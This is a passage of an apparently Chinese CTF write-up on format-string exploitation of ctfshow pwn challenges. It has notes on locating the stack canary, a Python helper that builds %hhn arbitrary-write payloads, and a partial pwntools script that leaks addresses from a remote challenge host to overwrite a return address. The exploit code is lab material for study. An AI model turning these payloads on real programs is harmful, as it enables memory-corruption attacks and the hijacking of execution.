 - 注意首先把logo的内容`recv`了
- 注意gdb来寻找`canary`，还可以从ida中直接进行查看。经过ctfshow群中的一个大佬解释我才知道，函数中`v2 = __readgsdword(0x14u);`这是对`canary`进行的初始化，其值在ida中被记录着，可以直接进行查看位置

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn"
    return fmtstr

def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6,4,0x0804A028,0x12345678)
```

# 修改返回地址

```python
from pwn import *
import warnings
from LibcSearcher import *

warnings.filterwarnings("ignore")
offset = 8 
secret_key = 0x202060

def fmt_attack(payload):
    sh.sendlineafter(">>","2")
    sh.sendline(payload)

sh =  remote('pwn.challenge.ctf.show',28106)

sh.recv()
sh.send("11\n11\n11\n")

payload = "%7$n-%16$p"
fmt_attack(payload=payload)
sh.recvuntil("-")
ret_addr = int(sh.recvuntil("\n")[:-1],16) - 0x28

payload = "%7$n+%17$p"
fmt_attack(payload=payload)
sh.recvuntil("+")
ret_value = int(sh.recvuntil("\n")[:-1],16)
elf_base = ret_value - 0x102c
addr_changed =(elf_base + 0xF56)&0xffff

```